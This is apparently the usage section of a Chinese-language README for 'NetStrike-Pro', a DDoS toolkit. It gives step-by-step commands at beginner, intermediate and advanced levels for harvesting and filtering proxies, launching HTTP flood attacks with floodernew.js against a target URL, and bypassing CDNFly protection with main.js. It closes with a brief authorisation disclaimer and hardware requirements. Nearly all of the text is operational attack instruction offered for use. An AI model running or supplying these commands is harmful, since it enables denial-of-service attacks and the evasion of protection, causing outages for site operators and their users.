 
## 🎓 使用指南

### 新手入门（5 分钟）

```bash
# 1. 安装依赖
cd NetStrike-Pro/legacy
sudo ./Nodejs.sh

# 2. 获取代理
node github_list.js

# 3. 简单攻击
node floodernew.js GET "https://target.com" 60 8 90 proxies_all.txt
```

### 中级用户（10 分钟）

```bash
# 1. 筛选代理
cd ..
python3 超高速筛选.py

# 2. 高级攻击
cd NetStrike-Pro/legacy
node floodernew.js GET "https://target.com?q=%RAND%" 300 16 120 proxy_filtered.txt \
    --limit true --query 1 --debug
```

### 高级用户（自动化）

```bash
# 全自动绕过 + 攻击
node main.js -u https://target-with-cdnfly.com -p proxy_filtered.txt \
    -t 30 -r 20 -s 600 -c -o -d
```

---

## ⚠️ 重要提醒

### 法律合规

- ✅ **必须授权** - 仅用于已授权的目标
- ✅ **合法用途** - 不得用于非法攻击
- ✅ **责任自负** - 违法使用后果自负

### 技术要求

**最低配置**:
- CPU: 4 核
- 内存: 8GB
- 带宽: 100Mbps
- 系统: Ubuntu 20.04+
